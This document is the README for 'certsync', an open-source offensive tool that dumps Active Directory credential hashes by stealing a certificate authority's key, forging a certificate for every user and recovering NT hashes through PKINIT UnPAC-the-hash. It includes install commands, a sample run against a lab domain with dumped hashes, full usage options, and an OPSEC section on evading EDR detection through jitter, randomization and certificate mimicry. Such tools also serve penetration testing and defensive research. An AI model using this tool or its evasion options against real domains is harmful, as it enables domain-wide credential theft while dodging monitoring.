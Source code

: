 # certsync

`certsync` is a new technique in order to dump NTDS remotely, but this time **without DRSUAPI**: it uses [golden certificate](https://www.thehacker.recipes/ad/persistence/ad-cs/golden-certificate) and [UnPAC the hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash).
It works in several steps:

1. Dump user list, CA informations and CRL from LDAP
2. Dump CA certificate and private key
3. Forge offline a certificate for every user
4. UnPAC the hash for every user in order to get nt and lm hashes

```text
$ certsync -u khal.drogo -p 'horse' -d essos.local -dc-ip 192.168.56.12 -ns 192.168.56.12
[*] Collecting userlist, CA info and CRL on LDAP
[*] Found 13 users in LDAP
[*] Found CA ESSOS-CA on braavos.essos.local(192.168.56.23)
[*] Dumping CA certificate and private key
[*] Forging certificates for every users. This can take some time...
[*] PKINIT + UnPAC the hashes
ESSOS.LOCAL/BRAAVOS$:1104:aad3b435b51404eeaad3b435b51404ee:08083254c2fd4079e273c6c783abfbb7:::
ESSOS.LOCAL/MEEREEN$:1001:aad3b435b51404eeaad3b435b51404ee:b79758e15b7870d28ad0769dfc784ca4:::
ESSOS.LOCAL/sql_svc:1114:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
ESSOS.LOCAL/jorah.mormont:1113:aad3b435b51404eeaad3b435b51404ee:4d737ec9ecf0b9955a161773cfed9611:::
ESSOS.LOCAL/khal.drogo:1112:aad3b435b51404eeaad3b435b51404ee:739120ebc4dd940310bc4bb5c9d37021:::
ESSOS.LOCAL/viserys.targaryen:1111:aad3b435b51404eeaad3b435b51404ee:d96a55df6bef5e0b4d6d956088036097:::
ESSOS.LOCAL/daenerys.targaryen:1110:aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a:::
ESSOS.LOCAL/SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:b63b6ef2caab52ffcb26b3870dc0c4db:::
ESSOS.LOCAL/vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
ESSOS.LOCAL/Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
```

Contrary to what we may think, the attack is not at all slower.

## Table of Contents

- [certsync](#certsync)
  - [Table of Contents](#table-of-contents)
  - [Installation](#installation)
  - [Usage](#usage)
  - [Why](#why)
  - [Requirements](#requirements)
  - [Limitations](#limitation)
  - [OPSEC](#opsec)
  - [Credits](#credits)

## Installation

Locally:

```text
git clone https://github.com/zblurx/certsync
cd certsync
pip install .
```

From Pypi:

```text
pip install certsync
```

From BlackArch:

```text
pacman -S certsync
```

All OS distribution packages:

[![Packaging status](https://repology.org/badge/vertical-allrepos/certsync-ntds.svg)](https://repology.org/project/certsync-ntds/versions)

## Usage

```text
$ certsync -h
usage: certsync [-h] [-debug] [-outputfile OUTPUTFILE] [-ca-pfx pfx/p12 file name] [-ca-ip ip address] [-d domain.local] [-u username]
                [-p password] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-kdcHost KDCHOST] [-scheme ldap scheme] [-ns nameserver]
                [-dns-tcp] -dc-ip ip address [-ldap-filter LDAP_FILTER] [-template cert.pfx] [-timeout timeout] [-jitter jitter] [-randomize]

Dump NTDS with golden certificates and UnPAC the hash

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -outputfile OUTPUTFILE
                        base output filename

CA options:
  -ca-pfx pfx/p12 file name
                        Path to CA certificate. If used, will skip backup of CA certificate and private key
  -ca-ip ip address     IP Address of the certificate authority. If omitted it will use the domainpart (FQDN) specified in LDAP

authentication options:
  -d domain.local, -domain domain.local
                        Domain name
  -u username, -username username
                        Username
  -p password, -password password
                        Password
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid
                        credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -kdcHost KDCHOST      FQDN of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter

connection options:
  -scheme ldap scheme
  -ns nameserver        Nameserver for DNS resolution
  -dns-tcp              Use TCP instead of UDP for DNS queries
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter

OPSEC options:
  -ldap-filter LDAP_FILTER
                        ldap filter to dump users. Default is (&(|(objectCategory=person)(objectClass=computer))(objectClass=user))
  -template cert.pfx    base template to use in order to forge certificates
  -timeout timeout      Timeout between PKINIT connection
  -jitter jitter        Jitter between PKINIT connection
  -randomize            Randomize certificate generation. Takes longer to generate all the certificates
```

## Why

DSRUAPI is more and more monitored and sometimes retricted by EDR solutions. Moreover, `certsync` does not require to use a Domain Administrator, it only require a CA Administrator.

## Requirements

This attack needs:
- A configured Entreprise CA on an ADCS server in the domain,
- PKINIT working,
- An domain account which is local administrator on the ADCS server, or an export of the CA certificate and private key.

## Limitations

Since we cannot PKINIT for users that are revoked, we cannot dump thier hashes.

## OPSEC

Some options were added to customize the behaviour of the tool:
- `-ldap-filter`: change the LDAP filter used to select usernames to certsync.
- `-template`: use an already delivered certificate to mimic it when forging users certificates.
- `-timeout` and `-jitter`: change timeout between PKINIT authentication requests.
- `-randomize`: By default, every forged user certificates will have the same private key, serial number and validity dates. This parameter will randomize them, but the forging will take longer. 

## Credits

- [Olivier Lyak](https://twitter.com/ly4k_) for all his work on ADCS and [certipy](https://github.com/ly4k/Certipy).
- [Benjamin Delpy](https://twitter.com/gentilkiwi) for the unPAC the hash technique.
- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) and [Certify](https://github.com/GhostPack/Certify).
- [Mayfly](https://twitter.com/M4yFly) for his great lab: [GOAD](https://github.com/Orange-Cyberdefense/GOAD).
